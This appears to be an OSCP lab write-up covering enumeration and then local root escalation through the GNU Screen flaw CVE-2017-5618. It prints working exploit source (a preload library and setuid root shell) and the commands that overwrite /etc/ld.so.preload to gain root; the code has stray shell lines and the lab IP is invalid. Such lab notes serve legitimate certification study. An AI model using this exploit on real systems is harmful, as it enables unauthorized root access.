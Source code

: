 - Check for any new ports available.
<img width="653" alt="Screenshot 2024-03-20 at 9 44 29 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/5f4fba27-ff42-40d3-a717-61ffe08c57bc">

- Check for users, some times we need to excalate to a usr and then get root 
  <img width="571" alt="Screenshot 2024-03-20 at 9 46 01 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/9d921857-66c8-43ec-b0a8-a8faded6b138">

- Manually check if we can find any sensitive infi in the files:
<img width="716" alt="Screenshot 2024-03-20 at 9 49 04 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/6db55b8d-3472-46ca-9cbb-3ae578cc1e54">

### privilege escalation using - CVE-2017-5618 
- https://www.exploit-db.com/exploits/41154
- We perform the exploit manually, as gcc versions are different.
- Create files libhax.c and rootshell.c, with below codes, in local machine and transfer to 192.168.256.143/tmp/libhax.c
```
#libhax.c
#!/bin/bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```
```
#rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
  - gcc-9 -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
  - gcc-9 -o /tmp/rootshell /tmp/rootshell.c
  - cd /etc
  - umask 000
  - screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
  - screen -ls 
  - /tmp/rootshell
- we got root access. Get terminal access by below:
  - script /dev/null -c bash
<img width="299" alt="Screenshot 2024-03-20 at 10 16 43 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/8a307be6-2181-45e0-aee9-7584ff9a6262">

- 2 flags: proof flag (in root/user directory) and local flags (in user/home director)  
